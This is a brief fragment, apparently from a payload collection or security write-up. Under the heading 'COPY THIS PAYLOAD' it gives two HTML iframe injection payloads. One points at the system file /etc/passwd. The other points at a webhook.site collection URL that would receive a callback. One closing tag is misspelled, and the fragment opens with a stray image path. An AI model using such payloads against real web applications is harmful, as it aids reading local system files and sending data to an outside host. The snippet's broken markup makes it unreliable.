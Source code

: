 COPY THIS PAYLOAD
```diff
<iframe src="file://etc/passwd"></firame>
<iframe src="https://webhook.site/G-XXXXX"></iframe>
```
